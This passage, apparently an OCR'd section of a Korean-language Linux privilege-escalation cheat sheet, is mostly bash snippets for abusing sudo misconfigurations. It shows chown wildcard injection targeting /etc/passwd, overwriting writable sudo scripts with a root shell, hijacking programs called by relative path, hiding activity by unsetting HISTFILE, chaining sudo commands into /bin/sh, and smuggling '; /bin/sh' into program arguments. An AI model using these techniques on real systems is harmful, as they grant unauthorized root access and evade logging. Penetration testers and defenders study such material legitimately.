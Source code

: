 ```bash
fi

# chown 와일드카드 인젝션
if sudo -l | grep -q "chown.*\*"; then
    echo "CHOWN wildcard injection:"
    touch /tmp/--reference=/etc/passwd
    # sudo chown user /tmp/* 실행시 /etc/passwd 권한 변경
fi
```

### 📝 스크립트 파일 악용

```bash
# 1. 스크립트 파일 자체를 덮어쓸 수 있는 경우
script_path=$(sudo -l 2>/dev/null | grep -o '/[^[:space:]]*\.sh')
if [ ! -z "$script_path" ]; then
    if [ -w "$script_path" ]; then
        echo "Script writable: $script_path"
        echo '#!/bin/bash\n/bin/sh' > "$script_path"
    fi
fi

# 2. 스크립트가 호출하는 다른 프로그램 하이재킹
# 스크립트 내용 확인
script_files=$(sudo -l 2>/dev/null | grep -o '/[^[:space:]]*\.\(sh\|py\|pl\|rb\)')
for script in $script_files; do
    echo "=== Analyzing script: $script ==="
    cat "$script" 2>/dev/null | grep -E "(system|exec|popen|call)" | head -5
done

# 3. 상대 경로로 호출되는 프로그램들
for script in $script_files; do
    echo "=== Relative paths in: $script ==="
    cat "$script" 2>/dev/null | grep -v '^#' | grep -o '[^/[:space:]]*[[:space:]]' | grep -v '^$' | head -5
done
```

### 🔧 고급 sudo 우회 기법

```bash
# 1. sudo 타임스탬프 재사용
sudo -n true 2>/dev/null && echo "Sudo timestamp still valid"

# 2. sudo 로그 우회 (로그 안남기기)
unset HISTFILE
sudo command

# 3. sudo with shell metacharacters
sudo sh -c 'command; /bin/sh'
sudo bash -c 'command && /bin/sh'

# 4. 명령어 체이닝
sudo command1 && /bin/sh
sudo command1 ; /bin/sh
sudo command1 | /bin/sh

# 5. 파일 디스크립터 활용
sudo command 0</dev/tty
sudo sh 0<&1

# 6. 인자 인젝션 (특정 프로그램에서)
sudo program -option "value; /bin/sh"
sudo program --config=/tmp/evil_config
```